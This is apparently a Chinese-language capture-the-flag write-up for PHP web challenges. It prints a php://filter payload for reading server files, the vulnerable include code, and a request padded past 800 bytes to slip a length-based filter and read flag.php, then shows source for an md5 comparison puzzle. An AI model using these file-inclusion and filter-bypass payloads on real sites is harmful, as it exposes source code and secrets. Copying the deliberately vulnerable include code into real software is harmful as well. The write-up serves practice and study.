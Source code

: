 ![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736584349516-91a4e78d-a761-47a3-bf12-1ef707b6f84c.png)

发现存在waf 于是我们试着读取index.php看看如何绕过waf

```php
flag=php://filter/read=convert.base64-encode/resource=index.php
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736584765670-7102ffaf-e5fd-4e33-8c42-a14beeb81ca1.png)

解密后得到代码

```php
<?php

$path = $_POST["flag"];

if (strlen(file_get_contents('php://input')) < 800 && preg_match('/flag/', $path)) {
    echo 'nssctf waf!';
} else {
    @include($path);
}
```

通过代码审计 当上传参数小于800时会过滤掉flag 所以我们要上传超过800长度的参数

```php
a=........&flag=php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php
//省略号部分随便添加数据只要让总长度超过800即可
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736585104864-70ac57e6-dc6c-421a-adac-c4b78e902c64.png)

解密得到flag

## [md5简单题目]
```php
<?php
highlight_file(__FILE__);
include_once('flag.php');

if(isset($_POST['a'])&&!preg_match('/[0-9]/',$_POST['a'])&&intval($_POST['a'])){
    if(isset($_POST['b1'])&&$_POST['b2']){
        if($_POST['b1']!=$_POST['b2']&&md5($_POST['b1'])===md5($_POST['b2'])){
            if($_POST['c1']!=$_POST['c2']&&is_string($_POST['c1'])&&is_string($_POST['c2'])&&md5($_POST['c1'])==md5($_POST['c2'])){
                echo $flag;
            }else{
                echo "yee";
            }
        }else{
            echo "nop";
        }
    }else{
        echo "go on";
    }
}else{
    echo "let's get some php";
}
?> 
```
